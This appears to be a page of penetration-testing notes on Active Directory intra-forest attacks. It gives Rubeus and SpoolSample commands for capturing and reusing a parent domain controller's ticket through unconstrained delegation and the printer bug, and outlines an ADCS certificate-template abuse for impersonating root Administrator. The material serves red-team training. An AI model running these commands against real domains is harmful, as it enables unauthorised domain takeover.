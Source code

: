 ```yaml
---
description: >-
  Intra-forest allows for communication and resource sharing between multiple
  domains
---
```


# Intra Forest Attacks

### <mark style="color:yellow;">Unconstrained Delegation</mark>

This allows a service running under a user account to impersonate other users and access resources on their behalf.&#x20;

{% hint style="info" %}
By default, all domain controllers have `Unconstrained Delegation` enabled
{% endhint %}

If a child DC with unconstrained delegation is compromised it possible to get the TGT of the administrator of a parent DC when it logs in, or use printer bug to coerce.

```powershell
# Monitor for tickets
.\Rubeus.exe monitor /interval:5 /nowrap

#  Coerce with printerbug
.\SpoolSample.exe dc01.zencorp.ad dc02.dev.zencorp.ad

# Monitor for tickets again
.\Rubeus.exe monitor /interval:5 /nowrap

# Renew ticket
.\Rubeus.exe renew /ticket:doIFvDCC<SNIP> /ptt
```

### <mark style="color:yellow;">ADCS</mark>

ADCS is a server role that can build a PKI or public key infrastructure using digital certificates. Details from `Certification Authorities (CAs)` and `Certificate Templates` are stored in LDAP. The attack:

1. Add new vulnerable template inside certificate templates container as `pKICertificateTemplate` object.
2. Give administrator user of child domain Full Control over that template
3. Publish the template to CA server by modifying `pKIEnrollmentService` object of the CA inside the `Enrollment Services` container.
4. Request the certificate for `root\Administrator` from the child domain.

<details><summary>The attack</summary></details>

### <mark style="color:yellow;">Configuration Naming Context (NC)</mark>
